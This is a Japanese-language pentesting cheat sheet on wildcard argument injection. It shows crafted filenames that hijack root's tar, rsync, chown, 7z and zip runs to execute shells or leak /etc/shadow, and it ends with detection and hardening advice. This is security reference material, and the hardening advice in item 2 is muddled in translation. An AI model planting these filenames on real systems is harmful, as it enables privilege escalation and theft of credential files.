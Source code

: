 # Wildcards Spare Tricks

{{#include ../../banners/hacktricks-training.md}}

> ワイルドカード（別名 *glob*）**引数インジェクション**は、特権スクリプトが `tar`、`chown`、`rsync`、`zip`、`7z` などのUnixバイナリを、引用符なしのワイルドカード `*` と共に実行する際に発生します。
> シェルはバイナリを実行する**前に**ワイルドカードを展開するため、作業ディレクトリにファイルを作成できる攻撃者は、`-` で始まるファイル名を作成することで、**データではなくオプション**として解釈されるようにし、任意のフラグやコマンドを効果的に密輸することができます。
> このページでは、2023-2025年の最も有用なプリミティブ、最近の研究、現代の検出方法を集めています。

## chown / chmod

`--reference` フラグを悪用することで、**任意のファイルの所有者/グループまたはパーミッションビットをコピー**できます：
```bash
# attacker-controlled directory
touch "--reference=/root/secret``file"   # ← filename becomes an argument
```
ルートが後で次のようなものを実行するとき:
```bash
chown -R alice:alice *.php
chmod -R 644 *.php
```
`--reference=/root/secret``file` が注入され、*すべての* 一致するファイルが `/root/secret``file` の所有権/権限を継承します。

*PoC & tool*: [`wildpwn`](https://github.com/localh0t/wildpwn) (複合攻撃)。
詳細については、古典的な DefenseCode の論文を参照してください。

---

## tar

### GNU tar (Linux, *BSD, busybox-full)

**チェックポイント** 機能を悪用して任意のコマンドを実行します:
```bash
# attacker-controlled directory
echo 'echo pwned > /tmp/pwn' > shell.sh
chmod +x shell.sh
touch "--checkpoint=1"
touch "--checkpoint-action=exec=sh shell.sh"
```
一度rootが例えば`tar -czf /root/backup.tgz *`を実行すると、`shell.sh`がrootとして実行されます。

### bsdtar / macOS 14+

最近のmacOSのデフォルトの`tar`（`libarchive`に基づく）は`--checkpoint`を実装していませんが、外部コンプレッサーを指定できる**--use-compress-program**フラグを使用することで、コード実行を達成することができます。
```bash
# macOS example
touch "--use-compress-program=/bin/sh"
```
特権スクリプトが `tar -cf backup.tar *` を実行すると、`/bin/sh` が起動します。

---

## rsync

`rsync` は、`-e` または `--rsync-path` で始まるコマンドラインフラグを介してリモートシェルやリモートバイナリをオーバーライドすることを可能にします：
```bash
# attacker-controlled directory
touch "-e sh shell.sh"        # -e <cmd> => use <cmd> instead of ssh
```
もしrootが後で`rsync -az * backup:/srv/`でディレクトリをアーカイブすると、注入されたフラグがリモート側でシェルを起動します。

*PoC*: [`wildpwn`](https://github.com/localh0t/wildpwn) (`rsync`モード)。

---

## 7-Zip / 7z / 7za

特権スクリプトが*防御的に*ワイルドカードの前に`--`を付けて（オプション解析を止めるために）も、7-Zipフォーマットは**ファイルリストファイル**をサポートしており、ファイル名の前に`@`を付けることができます。それをシンボリックリンクと組み合わせることで、*任意のファイルを外部に抽出*できます：
```bash
# directory writable by low-priv user
cd /path/controlled
ln -s /etc/shadow   root.txt      # file we want to read
touch @root.txt                  # tells 7z to use root.txt as file list
```
もしrootが次のようなコマンドを実行すると:
```bash
7za a /backup/`date +%F`.7z -t7z -snl -- *
```
7-Zipは`root.txt`（→ `/etc/shadow`）をファイルリストとして読み取ろうとし、**stderrに内容を出力します**。

---

## zip

`zip`は、アーカイブがテストされるときにシステムシェルに*そのまま*渡されるフラグ`--unzip-command`をサポートしています：
```bash
zip result.zip files -T --unzip-command "sh -c id"
```
Inject the flag via a crafted filename and wait for the privileged backup script to call `zip -T` (test archive) on the resulting file.

---

## 追加のバイナリ：ワイルドカードインジェクションに脆弱なもの (2023-2025 クイックリスト)

以下のコマンドは、現代のCTFや実際の環境で悪用されています。ペイロードは常に、後でワイルドカードで処理される書き込み可能なディレクトリ内の*ファイル名*として作成されます：

| バイナリ | 悪用するフラグ | 効果 |
| --- | --- | --- |
| `bsdtar` | `--newer-mtime=@<epoch>` → 任意の `@file` | ファイル内容の読み取り |
| `flock` | `-c <cmd>` | コマンドの実行 |
| `git`   | `-c core.sshCommand=<cmd>` | SSH経由でのgitによるコマンド実行 |
| `scp`   | `-S <cmd>` | sshの代わりに任意のプログラムを起動 |

これらのプリミティブは*tar/rsync/zip*のクラシックよりも一般的ではありませんが、ハンティングの際には確認する価値があります。

---

## 検出とハードニング

1. **重要なスクリプトでシェルグロビングを無効にする**: `set -f` (`set -o noglob`) はワイルドカードの展開を防ぎます。
2. **引数を引用またはエスケープする**: `tar -czf "$dst" -- *` は*安全ではありません* — `find . -type f -print0 | xargs -0 tar -czf "$dst"`を好むべきです。
3. **明示的なパス**: `*`の代わりに`/var/www/html/*.log`を使用して、攻撃者が`-`で始まる兄弟ファイルを作成できないようにします。
4. **最小特権**: 可能な限り、バックアップ/メンテナンスジョブをrootではなく特権のないサービスアカウントとして実行します。
5. **監視**: Elasticの事前構築されたルール*Potential Shell via Wildcard Injection*は、`tar --checkpoint=*`、`rsync -e*`、または`shell child process`に直後に続く`zip --unzip-command`を探します。EQLクエリは他のEDRに適応できます。

---

## 参考文献

* Elastic Security – Potential Shell via Wildcard Injection Detected rule (最終更新 2025)
* Rutger Flohil – “macOS — Tar wildcard injection” (2024年12月18日)

{{#include ../../banners/hacktricks-training.md}}
